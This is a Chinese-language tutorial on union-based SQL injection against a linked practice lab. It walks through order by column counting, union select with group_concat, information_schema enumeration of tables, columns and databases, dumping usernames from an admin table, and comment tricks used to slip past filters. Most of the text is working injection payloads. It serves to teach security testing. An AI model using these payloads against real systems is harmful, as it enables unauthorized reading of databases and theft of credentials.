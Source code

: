回显点就是查到的数据返回到页面前端上

[sql注入靶机链接](http://59.63.200.79:8003/)

### order by 

```
输入 1' order by 1#和 1' order by 2#时都返回正常：


order by.png

order by2.png
当输入 1' order by 3#时，返回错误：


order by3.png
由此可知，users表中只有两个字段，数据为两列。
```
### union 
 联合查询

 因为上面判断出了该表有多少个字段，联合查询差不多就是把union后面查询语句返回的值接到原表后面去，但是不能通过指针访问到，只能id大于原最大id才能访问到(ps.或者前面的查询语句不产生作用,判断语句结果值为False,and 1=2)
 union访问到的只能是返回的所有数据第一条

###  group_concat()



`group_concat`跟着上面的union用把返回的所有的`group_concat()`括号里的字段的数据全部拼接一个str


### 回显点
举例比如有时候你通过order by查询到该表有两个字段，但是显示到前端页面能看到的只有一个数据，比如前者 或者 后者，这样的话显示出来的那个就是回显点

---

## information_schema

当数据库版本大于5.5时，有一个数据库名为`information_schema`里面有该链接下所有数据库所有的信息，包括所有的字段名，表名。

##### tables:
tables为information_schema下的一个表，里面有所有的表的信息
通过：
```
union select table_name,table_schema from information_schema.tables where table_schema= 'user'
```


可以找到user数据库下所有的表名和所属的数据库



#### columns
columns是information下的一个表，里面有链接下所有的列(ps.也就是字段)的信息，
通过：
```
4 union select 1,group_concat(column_name) from information_schema.columns where table_name='admin' and table_schema='maoshe'
```
可以找到maoshe库里admin表里的所有字段，(ps.因为回显点在第二个，所以我第一个放1，也无所谓，因为不显示)


#### schemata
schemata是information下的一个表，里面保存的是每个数据库的一些信息
通过：

`union select 1,group_concat(schema_name) from information_schema.schemata`

---



## 查询表的数据时
==切记要记得加数据库名==

`?id=4 union select 1,group_concat(username) from maoshe.admin`

==上面是整形注入，字符型的差不多，就注意打断引号''就行了==

### 注释符：
在mysql中常见的注释符有：#或--空格或/**/
内联注释：
内联注释的形式;/*！code*/。内联注释可以用于整个SQL语句中，用于执行我们的SQl语句，下面举一个例子：
index.php?id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3







